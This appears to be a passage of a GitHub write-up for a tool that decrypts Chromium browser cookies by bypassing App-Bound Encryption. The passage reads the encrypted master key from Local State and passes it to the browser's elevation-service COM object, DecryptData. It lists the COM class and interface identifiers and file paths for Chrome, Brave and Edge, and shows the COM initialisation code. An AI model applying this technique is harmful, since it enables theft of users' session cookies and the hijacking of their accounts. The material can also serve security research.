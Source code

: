 Once a valid COM pointer is obtained, the script extracts the encrypted master key from the browser’s Local State file (stored under os_crypt.app_bound_encrypted_key), skips the DPAPI prefix, and attempts to pass the raw encrypted blob to DecryptData. This decrypted output would, if everything goes well, represent the plaintext AES-GCM key used to encrypt browser cookies.


#### **Datas** 

Structure : name, processName, clsid, iid, userDataSubpath 

```
if (browserType == "chrome")
{
    return {
        // https://github.com/chromium/chromium/blob/225f82f8025e4f93981310fd33daa71dc972bfa9/chrome/elevation_service/elevation_service_idl.idl
        {0x708860E0, 0xF641, 0x4611, {0x88, 0x95, 0x7D, 0x86, 0x7D, 0xD3, 0x67, 0x5B}},
        {0x463ABECF, 0x410D, 0x407F, {0x8A, 0xF5, 0x0D, 0xF3, 0x5A, 0x00, 0x5C, 0xC8}},
        "C:\\Program Files\\Google\\Chrome\\Application\\chrome.exe",
        "\\Google\\Chrome\\User Data\\Local State",
        "Chrome"};
}
else if (browserType == "brave")
{
    return {
        // https://github.com/brave/brave-core/blob/1bc3b9e011c17e16a7aba895cac7e845b87ba5dc/chromium_src/chrome/elevation_service/elevation_service_idl.idl
        {0x576B31AF, 0x6369, 0x4B6B, {0x85, 0x60, 0xE4, 0xB2, 0x03, 0xA9, 0x7A, 0x8B}},
        {0xF396861E, 0x0C8E, 0x4C71, {0x82, 0x56, 0x2F, 0xAE, 0x6D, 0x75, 0x9C, 0xE9}},
        "C:\\Program Files\\BraveSoftware\\Brave-Browser\\Application\\brave.exe",
        "\\BraveSoftware\\Brave-Browser\\User Data\\Local State",
        "Brave"};
}
else if (browserType == "edge")
{
    return {
        // Thank you James Forshaw (@tyraniddo) - https://github.com/tyranid/oleviewdotnet
        {0x1FCBE96C, 0x1697, 0x43AF, {0x91, 0x40, 0x28, 0x97, 0xC7, 0xC6, 0x97, 0x67}},
        {0xC9C2B807, 0x7731, 0x4F34, {0x81, 0xB7, 0x44, 0xFF, 0x77, 0x79, 0x52, 0x2B}},
        "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
        "\\Microsoft\\Edge\\User Data\\Local State",
        "Edge"};
}
```



#### **COM object init**


```
HRESULT hr = CoInitializeEx(nullptr, COINIT_APARTMENTTHREADED);

Microsoft::WRL::ComPtr<IEdgeElevatorFinal> elevator;
hr = CoCreateInstance(config.clsid, nullptr, CLSCTX_LOCAL_SERVER, config.iid, (void **)&elevator);
```
